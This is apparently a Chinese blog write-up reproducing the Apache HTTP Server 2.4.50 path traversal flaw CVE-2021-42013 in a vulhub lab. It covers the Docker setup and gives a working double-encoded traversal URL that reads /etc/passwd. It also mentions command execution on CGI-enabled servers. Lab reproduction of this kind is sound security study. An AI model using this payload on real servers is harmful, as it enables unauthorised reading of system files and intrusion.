



# 一、概述
* `CVE-2021-42013` 在Apache Http Server 版本为2.4.50存在路径穿越漏洞，虽然在版本为2.4.49已经存在了相似的漏洞，且对漏洞进行修复，但是仍绕存在可以绕过的可能。
* 攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。
* 这个漏洞产生的原因与2.4.49 版本漏洞产生原因相同：
    * Apacher Server 版本等于2.4.49
    * 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。**（默认情况下是不允许的）**


# 二、影响版本
Apache Http Server == 2.4.50

# 三、漏洞靶场复现
* 这里还是使用`vulhub`线下靶场进行测试
```
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# ls
1.png  2.png  docker-compose.yml  Dockerfile  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# pwd
/home/wq/vulhub-master/httpd/CVE-2021-42013
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# docker-compose up -d
Creating network "cve-2021-42013_default" with the default driver
Creating cve-2021-42013_apache_1 ... done
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# 
```
* 靶场环境测试，开始访问：`http://192.168.10.134:8080/`发现可以正常访问，靶场搭建成功
  
  

# 四、开始漏洞复现
* 在`CVE-2021-41773`已经整理了在浏览器，由于编码问题不容易查看出问题，这里还是建议采用`BP`工具或者使用`linux`命令进程测试
* 开始访问：`http://192.168.10.134:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd`
  

# 总结：
`CVE-2021-42013`与`CVE-2021-41773` 很相似，一个apache http server 2.4.49版本，另一个是2.4.50版本，但是这种CVE的爆出都是有一定的前提，就是`<Directory />Require all granted</Directory>` 允许目录访问，所以在渗透测试的时候我们需要配合一些脚本快速测试，尝试是否可以跨目录访问